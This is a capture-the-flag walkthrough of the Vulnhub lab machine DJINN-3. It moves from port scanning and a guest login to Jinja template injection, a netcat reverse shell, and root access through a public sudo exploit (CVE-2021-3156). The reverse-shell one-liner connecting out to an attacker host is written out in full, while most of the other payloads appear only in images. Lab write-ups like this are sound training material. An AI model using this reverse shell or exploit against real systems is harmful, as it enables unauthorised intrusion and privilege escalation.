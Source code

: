 ```yaml
---
title: DJINN 3
categories: [Proving Grounds, Play]
tags: [Public Exploit, SSTI, PrivEsc, sudo exploit, jinja]
image:
  path: /Vulnhub-Files/img/DJINN-3/167-3.png
  alt:  DJINN 3 Machine 🖥️
---
```


## **Description ⤵️**

>
**💡 [DJINN-3](https://www.vulnhub.com/entry/djinn-3,492/)**
<br>
- **Level:** Intermediate
- **flags**: root.txt
- **Description:** The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to read the root flag.
{: .prompt-info }

### Let’s find the IP Address first >>

![167-1.png](/Vulnhub-Files/img/DJINN-3/167-1.png)

```bash
IP : 10.0.2.20
```
{: .nolineno}

## Port Scan Results ➡️

![167-2.png](/Vulnhub-Files/img/DJINN-3/167-2.png)

```bash
OPEN PORTS >
22     SSH
80     HTTP
5000   HTTP
31337  Elite?
```
{: .nolineno}


## Web Enumeration ⤵️

![167-3.png](/Vulnhub-Files/img/DJINN-3/167-3.png)

![167-4.png](/Vulnhub-Files/img/DJINN-3/167-4.png)

So the port `31337` is for netcat connection → I guess the username & password as `guest:guest` and I got in →

![167-5.png](/Vulnhub-Files/img/DJINN-3/167-5.png)

Now lets check for `SSTI vulnerability` →

![167-6.png](/Vulnhub-Files/img/DJINN-3/167-6.png)

![167-7.png](/Vulnhub-Files/img/DJINN-3/167-7.png)

So I guess we have `SSTI vulnerability` so lets exploit →

Since my payload land into `jinja` catagory of `SSTI` so →

![167-8.png](/Vulnhub-Files/img/DJINN-3/167-8.png)

![djinn3.png](/Vulnhub-Files/img/djinn3.png)

![167-9.png](/Vulnhub-Files/img/DJINN-3/167-9.png)

So After using this payload I got response as →

![167-10.png](/Vulnhub-Files/img/DJINN-3/167-10.png)

So now lets have a reverse shell and I will be using this nc reverse shell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f` to do so →

![167-11.png](/Vulnhub-Files/img/DJINN-3/167-11.png)

![167-12.png](/Vulnhub-Files/img/DJINN-3/167-12.png)

___

## SHELL ➡️

![167-13.png](/Vulnhub-Files/img/DJINN-3/167-13.png)

Now I have used one exploit to counter this linux machine →

And this time I exploited the sudo version →

![167-14.png](/Vulnhub-Files/img/DJINN-3/167-14.png)

URL → [https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

![167-15.png](/Vulnhub-Files/img/DJINN-3/167-15.png)

Now lets use the `exploit_nss.py` exploit →

![167-16.png](/Vulnhub-Files/img/DJINN-3/167-16.png)

![167-17.png](/Vulnhub-Files/img/DJINN-3/167-17.png)

___

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }